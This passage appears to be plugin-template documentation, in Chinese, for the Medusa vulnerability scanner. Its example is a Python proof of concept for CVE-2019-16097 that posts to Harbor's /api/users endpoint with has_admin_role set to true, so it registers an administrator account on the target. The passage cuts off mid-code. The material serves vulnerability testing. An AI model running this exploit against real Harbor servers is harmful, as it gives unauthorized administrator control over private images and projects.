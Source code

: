 ## 常规插件模板

> 如果漏洞可以执行远程命令的话，需要在常规模板中添加命令执行模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms,ErrorHandling
import json
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor 1.7.6之前版本\r\nHarbor 1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(**kwargs)->None:
    url=kwargs.get("Url")#获取传入的url参数
    Headers=kwargs.get("Headers")#获取传入的头文件
    proxies=kwargs.get("Proxies")#获取传入的代理参数
    try:
        payload = '/api/users'
        payload_url = url + payload
        #在原始传入的标头中添加需要的其他标头
        Headers["Accept"]="application/json"
        Headers["Content-Type"]="application/json"
        
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=Headers, proxies=proxies, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
```